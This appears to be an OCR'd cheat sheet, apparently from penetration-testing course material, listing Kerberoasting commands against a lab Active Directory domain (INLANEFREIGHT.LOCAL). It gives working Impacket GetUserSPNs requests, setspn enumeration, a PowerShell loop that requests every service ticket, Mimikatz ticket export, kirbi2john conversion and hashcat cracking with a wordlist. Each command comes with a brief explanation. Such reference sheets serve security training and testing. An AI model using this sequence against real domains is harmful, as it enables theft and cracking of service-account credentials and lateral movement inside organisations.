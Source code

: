 > Impacket tool used to get a list of `SPNs` on the target Windows domain from a Linux-based host.

`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request`

> Impacket tool used to download/request (`-request`) all TGS tickets for offline processing from a Linux-based host.

`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev`

> Impacket tool used to download/request (`-request-user`) a TGS ticket for a specific user account (`sqldev`) from a Linux-based host.

`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs`

> Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (`-outputfile sqldev_tgs`) linux-based host.

`hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force`

> Attempts to crack the Kerberos (`-m 13100`) ticket hash (`sqldev_tgs`) using `hashcat` and a wordlist (`rockyou.txt`) from a Linux-based host.

`setspn.exe -Q */*`

> Used to enumerate `SPNs` in a target Windows domain from a Windows-based host.

`Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`

> PowerShell script used to download/request the TGS ticket of a specific user from a Windows-based host.

`setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`

> Used to download/request all TGS tickets from a WIndows-based host.

`mimikatz # base64 /out:true`

> `Mimikatz` command that ensures TGS tickets are extracted in `base64` format from a Windows-based host.

`kerberos::list /export`

> `Mimikatz` command used to extract the TGS tickets from a Windows-based host.

`echo "<base64 blob>" | tr -d \\n`

> Used to prepare the base64 formatted TGS ticket for cracking from Linux-based host.

`cat encoded_file | base64 -d > sqldev.kirbi`

> Used to output a file (`encoded_file`) into a .kirbi file in base64 (`base64 -d > sqldev.kirbi`) format from a Linux-based host.

`python2.7 kirbi2john.py sqldev.kirbi`

> Used to extract the `Kerberos ticket`. This also creates a file called `crack_file` from a Linux-based host.
